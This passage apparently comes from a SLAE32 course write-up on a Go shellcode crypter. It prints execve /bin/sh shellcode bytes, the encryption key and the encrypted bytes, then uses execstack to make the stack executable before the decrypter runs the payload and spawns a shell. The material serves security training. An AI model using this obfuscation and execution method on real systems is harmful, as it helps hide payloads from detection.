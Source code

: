 To compile the crypter and test it, we execute the command `go build -o crypter crypter.go && ./crypter`

```
slemire@slae:~/slae32/assignment7$ go build -o crypter crypter.go && ./crypter
Shellcode code crypter
Key len: 32 bytes
Key: 0x24,0x90,0xef,0x80,0x66,0xee,0xda,0x52,0xfa,0xb9,0x8,0x37,0x3f,0x8e,0x1c,0x3b,0x0,0xec,0x7,0x19,0x5a,0x1f,0x94,0xe7,0x2e,0xdf,0xee,0x8d,0x9,0x63,0xe4,0xb5,
Nonce: 0xc6,0x2f,0xb2,0xd1,0x94,0x7b,0x47,0xa6,0x51,0x5d,0x57,0xfb,0x8a,0x2c,0x3e,0x7f,0x43,0x5a,0xfc,0xbb,0x24,0x4d,0xc7,0xbc,
Original shellcode: 0xeb,0x1a,0x5e,0x31,0xdb,0x88,0x5e,0x7,0x89,0x76,0x8,0x89,0x5e,0xc,0x8d,0x1e,0x8d,0x4e,0x8,0x8d,0x56,0xc,0x31,0xc0,0xb0,0xb,0xcd,0x80,0xe8,0xe1,0xff,0xff,0xff,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x41,0x42,0x42,0x42,0x42,0x43,0x43,0x43,0x43,
Encrypted shellcode: 0x79,0x46,0x15,0x27,0xa6,0xdb,0xbc,0x5,0x84,0x97,0x83,0x7c,0x4f,0xed,0x81,0xd,0xf,0x93,0x8e,0x7c,0xd3,0xa5,0x74,0x99,0xaa,0xcd,0xbe,0xd0,0x49,0x54,0xce,0x9d,0xe7,0x4a,0x64,0x95,0xc3,0x83,0xb8,0x58,0x4a,0xe4,0x87,0x49,0xb3,0x6e,0x6a,0x32,0x76,
```

Next, the key, nonce and encrypted shellcode are copy/pasted into the `decrypter.go` source file.

Compiling the decrypter uses: `go build -o decrypter decrypter.go`. There is however another step that needs to be executed after for the shellcode to work. By default (in newer Golang versions at least), the stack memory space is not marked executable so our shellcode won't work since it resides on the stack:

The output below shows the decrypter segfaulting when we execute it:
```
slemire@slae:~/slae32/assignment7$ ./decrypter 
...
fatal error: unexpected signal during runtime execution
[signal SIGSEGV: segmentation violation code=0x2 addr=0x841e100 pc=0x841e100]

runtime stack:
runtime.throw(0x80ea75c, 0x2a)
        /usr/local/go/src/runtime/panic.go:608 +0x6a
runtime.sigpanic()
        /usr/local/go/src/runtime/signal_unix.go:374 +0x239

goroutine 1 [syscall]:
runtime.cgocall(0x80bf970, 0x842a718, 0x0)
        /usr/local/go/src/runtime/cgocall.go:128 +0x6e fp=0x842a704 sp=0x842a6ec pc=0x804afee
main._Cfunc_call_shellcode(0x841e100)
        _cgo_gotypes.go:43 +0x33 fp=0x842a718 sp=0x842a704 pc=0x80bf613
main.main()
        /home/slemire/slae32/assignment7/decrypter.go:37 +0x2a1 fp=0x842a7d0 sp=0x842a718 pc=0x80bf8f1
runtime.main()
        /usr/local/go/src/runtime/proc.go:201 +0x206 fp=0x842a7f0 sp=0x842a7d0 pc=0x806cf76
runtime.goexit()
        /usr/local/go/src/runtime/asm_386.s:1324 +0x1 fp=0x842a7f4 sp=0x842a7f0 pc=0x80908f1
```

To resolve this problem we can make the stack executable again by using the `execstack` tool as follows. The shellcode is successfully decrypted and executed, spawning `/bin/sh`.
```
slemire@slae:~/slae32/assignment7$ execstack -s decrypter
slemire@slae:~/slae32/assignment7$ ./decrypter 
Shellcode code decrypter
Decrypted shellcode: 0xeb,0x1a,0x5e,0x31,0xdb,0x88,0x5e,0x7,0x89,0x76,0x8,0x89,0x5e,0xc,0x8d,0x1e,0x8d,0x4e,0x8,0x8d,0x56,0xc,0x31,0xc0,0xb0,0xb,0xcd,0x80,0xe8,0xe1,0xff,0xff,0xff,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x41,0x42,0x42,0x42,0x42,0x43,0x43,0x43,0x43,
Shellcode length: 49
Executing shellcode...
$ id
uid=1000(slemire) gid=1000(slemire) groups=1000(slemire),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```